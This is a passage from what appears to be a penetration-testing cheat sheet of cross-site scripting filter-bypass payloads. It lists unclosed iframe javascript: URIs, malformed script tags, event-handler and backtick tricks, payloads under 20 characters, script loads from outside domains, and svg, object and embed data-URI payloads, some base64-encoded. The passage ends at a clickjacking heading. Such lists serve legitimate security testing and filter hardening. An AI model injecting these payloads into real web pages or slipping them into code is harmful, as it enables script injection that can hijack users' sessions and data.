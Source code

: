 ```javascript
//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //
//Extra open
<<script>alert("XSS");//<</script>
//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">
//Using `` instead of parenthesis
onerro=alert`1`
//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

### Length bypass \(XSS in 20chars\)

Taken from the blog of [Jorge Lajara](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html).

```javascript
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr  
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).  
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).  
**More tiny XSS** payload [can be found here](https://github.com/terjanq/Tiny-XSS-Payloads).

### Weird combinations

From [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

```markup
<svg><animate onbegin=alert() attributeName=x></svg>
<object data="data:text/html,<script>alert(5)</script>">
<iframe srcdoc="<svg onload=alert(4);>">
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
```

### Click XSS - Clickjacking
